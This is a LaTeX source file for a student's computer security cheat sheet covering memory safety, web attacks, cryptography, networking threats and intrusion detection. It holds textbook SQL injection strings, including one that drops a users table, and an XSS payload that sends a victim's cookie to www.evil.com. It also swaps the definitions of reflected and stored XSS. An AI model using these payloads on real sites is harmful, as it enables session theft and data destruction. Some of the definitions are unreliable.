\documentclass[10pt,landscape]{article}
\usepackage[utf8]{inputenc}
\usepackage{multicol}
\usepackage{calc}
\usepackage{ifthen}
\usepackage[landscape]{geometry}
\usepackage{hyperref}
\usepackage{amsmath, amssymb, amsthm, bm, hyperref, float, mathtools}
% \usepackage{minted}
\usepackage{graphicx}
\usepackage{enumitem}
\usepackage{sectsty}

% Use images folder as root path for images
\graphicspath{ {images/} }

% Remove extra spacing on bullet points
\setlist[itemize]{nosep,leftmargin=*}
\setlist[enumerate]{nosep,leftmargin=*}

% This sets page margins to .5 inch if using letter paper, and to 1cm
% if using A4 paper. (This probably isn't strictly necessary.)
% If using another size paper, use default 1cm margins.
\ifthenelse{\lengthtest { \paperwidth = 11in}}
    { \geometry{top=.5in,left=.5in,right=.5in,bottom=.5in} }
    {\ifthenelse{ \lengthtest{ \paperwidth = 297mm}}
        {\geometry{top=1cm,left=1cm,right=1cm,bottom=1cm} }
        {\geometry{top=1cm,left=1cm,right=1cm,bottom=1cm} }
    }

% Turn off header and footer
\pagestyle{empty}


% Redefine section commands to use less space
\makeatletter

\sectionfont{\normalsize}
\subsectionfont{\small}
\subsubsectionfont{\small}
\paragraphfont{\small}

\makeatother

% Define BibTeX command
\def\BibTeX{{\rm B\kern-.05em{\sc i\kern-.025em b}\kern-.08em
    T\kern-.1667em\lower.7ex\hbox{E}\kern-.125emX}}

% Don't print section numbers
\setcounter{secnumdepth}{0}

\setlength{\parindent}{0pt}
\setlength{\parskip}{0pt plus 0.5ex}

% -----------------------------------------------------------------------

\DeclarePairedDelimiter{\ceil}{\lceil}{\rceil}
\newcommand{\expect}[1]{\mathbf{E}[#1]}
\newcommand{\var}[1]{\text{Var(#1)}}
\newcommand{\cov}[1]{\text{Cov(#1)}}
\newcommand{\identity}{\mathbf{I}}
\newcommand{\totient}{\varphi}

% -----------------------------------------------------------------------

\begin{document}

\raggedright
\footnotesize
\begin{multicols}{3}

\setlength{\premulticols}{1pt}
\setlength{\postmulticols}{1pt}
\setlength{\multicolsep}{1pt}
\setlength{\columnsep}{2pt}

% =============================================================================

\section{Principles for Secure Systems}

\begin{enumerate}
    \item \textit{Security is economics.} No system is completely secure, but they may only need to resist a certain level of attack.
    \item \textit{Least privilege.} Give a program the minimum set of access privilege that it needs to do its job, and nothing more.
    \item \textit{Use fail-safe defaults.} Start by denying all access, then allow only that which is explicitly permitted. For example, if a firewall fails it drops, rather than passes, all packets.
    \item \textit{Separation of responsibility.} Require more than one party to approve before access is granted. No one program has complete power.
    \item \textit{Defense in depth.} Use redundant measures to enforce systems.
    \item \textit{Psychological acceptability.} Users need to buy into the security model, otherwise they will ignore it or actively seek to subvert it.
    \item \textit{Human factors matter.} For example, we tend to ignore errors when they pop up.
    \item \textit{Ensure complete mediation.} Make sure to check every access to every object when enforcing access control policies.
    \item \textit{Know your threat model.} Design security measures to account for attackers; be careful with old/outdated assumptions.
    \item \textit{Detect if you can't prevent.} Log entries so you have some way to analyze break-ins after the fact.
    \item \textit{Don't rely on security through obscurity.} Hard to keep design of system secret from a sufficiently motivated adversary (\textit{brittle security}).
    \item \textit{Design security in from the start.} Trying to retrofit security into an existing application is difficult/impossible.
    \item \textit{Conservative design.} Systems should be evaluated under the worst security failure that is at all plausible, under assumptions favorable to the attacker.
    \item \textit{Kerkhoff's principle.} Cryptosystems should remain secure even when the attacker knows all details about the system except the key. (don't rely on security through obscurity).
    \item \textit{Proactively study attacks.} We should devote considerable effort to trying to break our own systems before attackers do.
\end{enumerate}

% =============================================================================

\section{Memory Layout}

\subsection{Registers}

\begin{tabular}{@{}ll@{}}
\texttt{sfp}    & saved \%ebp on stack \\
\texttt{ofp}    & old \%ebp from previous stack frame \\
\texttt{rip}    & return instruction pointer on stack \\
\texttt{\%eax}  & stores return value \\
\texttt{\%ebp}  & base pointer, indicates start of stack frame. \\
\texttt{\%esp}  & stack pointer, indicates bottom of stack. \\
\texttt{\%eip}  & instruction pointer, points to next instruction to run. \\
\end{tabular}

\subsection{Function Call}

\texttt{\%esp} advances whenever we push anything to the stack

Before the \texttt{call} instruction, push args in reverse order and push return address onto stack

\begin{tabular}{@{}ll@{}}
\texttt{prologue}   & \texttt{push \%ebp} \\
                    & \texttt{mov \%esp, \%ebp} \\
                    & \texttt{sub \$???, \%esp} \\
\texttt{...} \\
\texttt{leave}      & \texttt{mov \%ebp, \%esp} \\
                    & \texttt{pop \%ebp} \\
\texttt{ret}        & \texttt{pop \%eip} \\
\end{tabular}



\includegraphics[scale=0.26]{memory.png}


\includegraphics[scale=0.22]{stack_frame.png}


\section{Memory Safety}

\textbf{Preconditions}: what must hold for the function to operate correctly \\
\textbf{Postconditions}: what holds after a function completes \\

\subsection{Buffer overflow}

Can overwrite stack variables (such as return address) in order to jump to malicious code when frame exits

\textit{Return-oriented programming (ROP)} is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as non-executable memory and code signing. In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences, called "gadgets". Each gadget typically ends in a return instruction and is located in a subroutine within the existing program and/or shared library code. Chained together, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

\textbf{Potential fixes}

\textit{Stack canary} can be added by the compiler and randomly generated at runtime. Placed immediately below the saved frame pointer in the activation record. Program checks to see if this value has been changed.

\textit{ASLR (address randomization)}: starts the stack at random place in memory rather than a fixed point, so attacker cannot hardcode addresses

\texttt{gets} can be halted with \texttt{0x0A} and \texttt{0x00}. Could potentially be an issue in buffer overflow attacks.


\section{Access Control}

subject, object, policy - policy consists of rules access(S, O). Can be put in an \textit{access control matrix}. \\
finer-grained permissions (read, write, execute) \\
\textit{Reference monitor}: sits between subject and object, responsible for checking permissions. Should be unbypassable, tamper-resistant, verifiable.

\textit{Centralized enforcement}: database centrally checks policy for each access \\
\textit{Integrated access control}: verifies policy whenever there is data access; more flexible, but more prone to errors

\textit{Trusted Computing Base}: Part of the system that we rely on to operate correctly. If it misbehaves, the whole system is vulnerable. Try to keep this as small as possible. \\
\textit{Time-of-check-to-time-of-use}: race conditions.

\textit{Confidentiality}: set of rules that limits access \\
\textit{Integrity}: assurance that data is trustworthy/accurate \\
\textit{Availability}: guarantee of access to information by authorized entities

\textit{Authorization}: who should be able to perform what actions \\
\textit{Authentication}: verifying who is requesting the action

\textbf{Authentication}

Server should authenticate client (passwords, key, fingerprint, etc.) \\
Client should authenticate server (certificates) \\
\textit{2-factor auth} uses two of (knowledge, possession, attributes)

% WEB SECURITY ================================================================

\section{Web Security}

\begin{enumerate}
\item \textit{Integrity}: malicious websites should not be able to tamper with integrity of my computer or my information on other websites
\item \textit{Confidentiality}: malicious websites should not be able to learn confidential information from my computer or other sites
\item \textit{Privacy}: malicious sites should not be able to spy on me or my activities online
\end{enumerate}

\section{SQL Injection}

Can use \texttt{--} to comment out rest of the line, \texttt{;} to chain queries

Sanitize user input (whitelist characters or escape input string to not include special characters \texttt{', +, -, ;}

\textit{Prepared statements}: Predefined allowed commands

\begin{verbatim}
SELECT ... where user=' ' or 1=1; --
SELECT ... where user=' '; DROP TABLE Users; --
\end{verbatim}

\section{Same-Origin Policy}

\texttt{origin = protocol + hostname + port}

Enforced by web browsers; each site in the browser is isolated from all others but multiple pages from same site are not isolated

Cross-origin communication allowed through \texttt{postMessage}, receiving origin decides whether or not to accept


\section{XSS Attacks}

\textit{Reflected}: attacker places Javascript on benign web service for victim to load \\
\textit{Stored}: attacker gets user to click on specially-crafted URL with script in it, web service reflects it back

\textbf{Example payloads}

\begin{verbatim}
<script>window.open("www.evil.com/sendcookie?cookie="
    + Document.cookie)</script>
\end{verbatim}

\begin{verbatim}
<img href="test.png" onerror="alert()"></img>
\end{verbatim}

\section{Sessions}

\textbf{Cookie Scope}

\texttt{domain} can be any domain suffix of URL-hostname except top-level TLD.

Browser sends all cookies in URL-Scope: \texttt{cookie-domain} is domain suffix of URL-domain, \texttt{cookie-path} is prefix of URL-path. For example, a cookie with
\texttt{domain = example.com} and \texttt{path = /some/path/} will be included on a request to \texttt{http://foo.example.com/some/path/subdir/hello.txt}

\begin{tabular}{@{}ll@{}}
\texttt{domain}     & when to send \\
\texttt{path}       & when to send \\
\texttt{secure}     & only send over HTTPS \\
\texttt{expires}    & when to expire the cookie \\
\texttt{HTTPOnly}   & cookie cannot be accessed by Javascript \\
\end{tabular}


\section{Cross-Site Request Forgery (CSRF)}

Attacker makes a request on a victim's behalf, which looks like a legitimate request to the webserver. Uses victim's cookies (and thus their session)

Can be prevented via a CSRF token included in the form and the cookie. Attacker cannot POST form because they don't know the CSRF token, so webserver will reject request. Fails under XSS attacks.

\section{Clickjacking}

Renders another site's frame transparently over a seemingly innocent website; correct placement of buttons can lead user to click on buttons and trigger actions on other sites

Can exploit both \textit{visual} and \textit{temporal} integrity. Visual is hiding what's visible, temporal is like changing a link just as the user clicks on it.

\textit{Framekiller/framebuster} scripts can mitigate attack by checking if the website is being rendered in a frame

% =============================================================================

\section{Encryption}

\textit{Confidentiality}: prevent adversaries from reading private data \\
\textit{Integrity}: prevent data from being altered \\
\textit{Authenticity}: determine who created a document

\subsection{Threat Models}

\textit{Ciphertext-only attack}: Eve has managed to intercept a single encrypted message and wishes to recover the plaintext (the original message). \\
\textit{Known plaintext attack}: Eve has intercepted an encrypted message and also already has some partial information about the plaintext, which helps with deducing the nature of the encryption. \\
\textit{Chosen plaintext attack}: Eve can trick Alice to encrypt messages M1, M2, . . . , Mn of Eve’s choice, for which Eve can then observe the resulting ciphertexts (this might happen if Eve has access to the encryption system, or can generate external events that will lead Alice to sending predictable messages in response). At some other point in time, Alice encrypts a message M that is unknown to Eve; Eve intercepts the encryption of M and aims to recover M given what Eve has observed about the encryptions of M1, M2, . . . , Mn. \\
\textit{Chosen ciphertext attack}: Eve can trick Bob into decrypting some ciphertexts C1, . . . , Cn. Eve would like to use this to learn the decryption of some other ciphertext C (different from C1, . . . , Cn). \\
\textit{Chosen-plaintext/ciphertext attack}: A combination of cases 3 and 4: Eve can trick Alice into encrypting some messages of Eve’s choosing, and can trick Bob into decrypting some ciphertexts of Eve’s choosing. Eve would like to learn the decryption of some other ciphertext that was sent by Alice (and in particular did not occur as a result of Eve’s trickery). \\
\textit{Side-channel attack}: any attack based on information gained from the physical implementation of a cryptosystem, rather than brute force or theoretical weaknesses in the algorithms. (ex: timing information, power consumption, electromagnetic leaks or even sound could be used)


\subsection{Block Ciphers}

Properties: correctness (bijective function), efficiency (both encryption/decryption in polynomial time), security (behaves like random permutation)

\textit{Security game}: Attacker given 2 boxes, one for $E_k$ and one for random permutation. Must tell which is which. \\
\textit{IND-CPA}: Probability of winning has to be less than $1/2 + \epsilon$. Requires that encryption scheme is randomized.

\begin{enumerate}
    \item Challenger generates $K_C$, $K_C^{-1}$. Gives $K_C$ to adversary.
    \item Adversary can choose a bunch of plaintexts and ask for a polynomially bounded number of encryptions
    \item Adversary submits two chosen plaintexts $M_0$ and $M_1$
    \item Challenger selects random bit $b\in\{0, 1\}$ and sends ciphertext $C=Enc_{K_C^{-1}}(M_b)$ to adversary
    \item Adversary can perform any additional encryptions/operations and outputs a guess $b$
\end{enumerate}

\textit{ECB mode}: Encryption: $C_i = E_K(M_i)$, Decryption: $M_i = D_K(C_i)$. Leaks information about the plaintext (for instance, if two blocks are the same) \\
\textit{CBC mode}: Encryption: $C_0 = IV, C_i = E_K(C_{i-1} \oplus M_i)$, Decryption: $M_0 = D_K(C_0) \oplus IV, M_i = C_{i-1} \oplus D_K(C_i)$ \\
\textit{Output Feedback Mode}: Encryption: $Z_0 = IV, Z_i = E_K(Z_{i=1}), C_i = Z_i \oplus M_i$. \\
\textit{CTR mode}: Encryption: $C_i = E_K(IV + i) \oplus M_i$, Decryption: $M_i = E_K(IV + i) \oplus C_i$

\section{Public-Key Cryptography}

\textit{Perfect forward secrecy}: In cryptography, forward secrecy (FS; also known as perfect forward secrecy) is a property of secure communication protocols in which compromise of long-term keys does not compromise past session keys. Forward secrecy protects past sessions against future compromises of secret keys or passwords. Diffie-Hellman provides perfect forward secrecy, RSA does not.

\subsection{Number Theory}

\textit{Euler's theorem}: if $gcd(x, n) = 1$, then $x^{\totient(n)} = 1 \pmod{n}$. \\
If $p$ and $q$ are two different odd primes, then $\totient(pq) = (p-1)(q-1)$. \\
If $p \equiv 2 \pmod{3}$ and $q \equiv 2 \pmod{3}$ then we can efficiently compute $d$ given $\totient(pq)$ such that $3d = 1 \pmod{\totient(pq)}$ \\
\textit{Discrete Logarithm problem}: Finding $a$ such that $A = g^a \pmod{p}$ is computationally hard.

\subsection{RSA Encryption}

\textit{RSA keypair generation}: Choose two distinct prime numbers p and q. Should be chosen at random, similar in magnitude, but differ in length by a few digits. Compute $n = pq$, which is used as the modulus for public/private keys. Compute $\totient(n) = \totient(p)\totient(q) = (p-1)(q-1) = n -(p+1-q)$. Choose $e$ such that $1 < e < \totient(n)$ and $gcd(e, \totient(n)) = 1$ so $e$ and $\totient(n)$ are coprime. Determine $d = e^{-1} \pmod{\totient(n)}$, so $d$ is multiplicative inverse of $e \pmod{\totient(n)}$ \\
\textit{RSA encryption}: $c \equiv m^e \pmod{n}$, $c^d \equiv (m^e)^d \equiv m \pmod{n}$

\subsection{Diffie-Hellman Exchange}

\textit{Diffie-Hellman exchange}: System parameters: agree on a 2048-bit prime $p$, a value $g$ in range $(2, p-2)$. Both arbitrary, fixed, public. Key agreement protocol: Alice randomly picks $a \in \{0, p-2\}$ and sends $A = g^a \pmod{p}$ to Bob. Bob picks $b \in \{0, p-2\}$ and sends $B = g^b \pmod{p}$. Alice computes $K = B^a \pmod{p}$, Bob computes $K = A^b \pmod{p}$. \\
\textit{ElGamal encryption}: System parameters: agree on 2048-bit prime $p$, a value $g \in \{2, p-2\}$. Both arbitrary, fixed, public. Key generation: Bob picks $b \in \{0..p-2\}$ randomly and computes $B = g^b \pmod{p}$. Public key is $B$ and private key is $b$. Encryption: $E_B(m) = (g^r \pmod{p}, m \times B^r \pmod{p})$ where random $r \in \{0..p-2\}$. Decryption: $D_b(R, S) = R^{-b} \times S \pmod{p}$


\subsection{Cryptographic Hash Functions}

\textit{One-way}: Infeasible to find input $x$ such that $y = H(x)$. \\
\textit{Second preimage-resistant}: Given a message $x$, it is infeasible to find another message $x'$ such that $x' \ne x$ but $H(x) = H(x')$. \\
\textit{Collision resistant}: It is infeasible to find \textit{any} pair of messages $x, x'$ such that $x' \ne x$ but $H(x) = H(x')$. \\


% =============================================================================

\section{Networking}

\begin{multicols}{2}

\includegraphics[scale=0.26]{keyexch_rsa.png}
\columnbreak

\includegraphics[scale=0.26]{keyexch_dh.png}
\end{multicols}

\textit{TLS key exchange (RSA)}: Browser constructs premaster secret (PS). Browser sends PS encrypted using Amazon's public RSA key. Using $P_S$, $R_B$, and $R_S$, browser and server derive symmetric cipher keys $(C_B, C_S)$ and MAC integrity keys $(I_B, I_S)$, one pair for each direction. Browser and server exchange MACs computed over entire dialog so far. If MAC is good, browser displays lock icon and all subsequent communication is encrypted with symmetric cipher (AES128), MACs. Sequence numbers prevvent replay attacks.

\textit{Layers}: Physical, link, (inter)network, transport, application
\textit{Packet headers}: Link, (inter)network/IP, transport layer, application data

\subsection{Security Goals}

\textit{Confidentiality}: No unauthorized reading of data/communication \\
\textit{Integrity}: No unauthorized manipulation of data/processing/communications \\
\textit{Availability}: We can access data/processing/communications when we want

\subsection{Link-Layer Threats}

\textit{Sniffing}: Eavesdropping (free for subnets on broadcast technologies, since NIC captures all traffic) \\
\textit{Jamming}: Denial of service, drops packets \\
\textit{Spoofing}: Inject packet with faked source address. Easy for on-path attackers, can adjust communication to match eavesdropped traffic. Off-path attackers need to guess/infer header values to succeed (can usually brute force)

\subsection{IP-Layer Threats}

\textit{Spoofing}: Change identity, so receiver doesn't know who you are \\
\textit{Scanning}: Brute force search for host by spoofing destination address \\
\textit{Flooding}: No tracking for overuse or consent, so denial of service possible \\
\textit{Router manipulation}: Hard, change routing for victim to go through attacker \\
\textit{DHCP spoofing}: Race legitimate DNS server to respond to request for a DNS server, substitute with fake. Intercept all of host's off-subnet traffic and MITM between client and server, modify in any way

\subsection{Transport-Layer Threats}

\textit{Connection hijacking}: If attacker knows ports/sequence numbers, can inject data into connection easily. Can also send a RST packet for denial of service attacks.

% =============================================================================

\section{Firewalls}

\textit{Default-allow}: every network service is allowed unless explicitly blacklisted. Fails open, everything works but allows for security breach \\
\textit{Default-deny}: every network service is denied unless explicitly allowed. Failure results in loss of functionality but not a security breach

Most firewalls use default-deny. Network services identified using tuple (m=IP address of machine, r=protocol identifier (UDP, TCP, etc.), p=port number). Orthogonal system: Transparent to rest of system, much easier to retrofit onto older designs. Can be negative, bolt-on security with abstraction differences can lead to security holes. Central control, easy to deploy. Problems: Loss of network functionality, malicious insiders, some applications just end up tunneling traffic over universally trusted ports (e.g. 80, 443, etc.)

% =============================================================================

\section{Detection}

\textit{Evasion attacks}: Arise when double-parsing occurs. Inconsistency: NIDS interprets packets differently. Ambiguity: Information needed to interpret packet is missing.

\textit{Network Intrusion Detection (NIDS)}: Passively monitor traffie for signs of attack \\
\textit{Network-Based Detection}: scan packets for suspicious contents, like \texttt{/etc/passwd}. Can be evaded by avoiding including such keywords/using HTTPS. \\
\textit{Host-Based Detection}: install IDS on web server. More powerful than Network-Based, can handle HTTPS, can monitor syscalls. Have to install such software on each individual server. \\
\textit{Signature-Based Detection}: look for activity that matches structure of a known attack. Vulnerability signatures are based on known problems instead of actual attacks. \\
\textit{Anomaly-Based Detection}: broader than Signature: develop a model of normal activity, and flag deviations from it. (Doesn't work well in practice) \\
\textit{Specification-Based Detection}: explicitly specify allowed behaviors and black/flag all other activity. Expensive to calculate these specifications but can detect novel attacks, and has low false positives. \\
\textit{Behavior-Based Detection}: Look for evidence of compromise instead. But only detects attacks after the fact.

% =============================================================================

\section{DNSSEC}

Sign all DNS records. Signatures allow us to verify answer to DNS query, without having to trust the network or resolvers. As query goes from DNS root downwards, gets signed statement regarding keys used by next level. Builds up a chain of trusted keys. For example, information about \texttt{google.com} is signed by public key of \texttt{.com}, which is signed by \texttt{root}.

Issues: Replies are big, increased latency on low-capacity links, DoS amplification. Partial deployment: need everyone along the chain to have DNSSEC implemented.

\textit{Object vs Channel security}: Trust of server versus connection to server. TLS provides channel security (confidentiality, integrity, authentication). DNSSEC provides object security (integrity, authentication).

% =============================================================================

\section{Proof-of-work and Bitcoin}

% =============================================================================

\section{Electronic Voting}

% =============================================================================

\section{Cheating in Online Games}

% =============================================================================

\section{Cloud Security}

% =============================================================================

\section{Jailbreaking}

% =============================================================================

\section{Censorship}

% =============================================================================

\end{multicols}
\end{document}
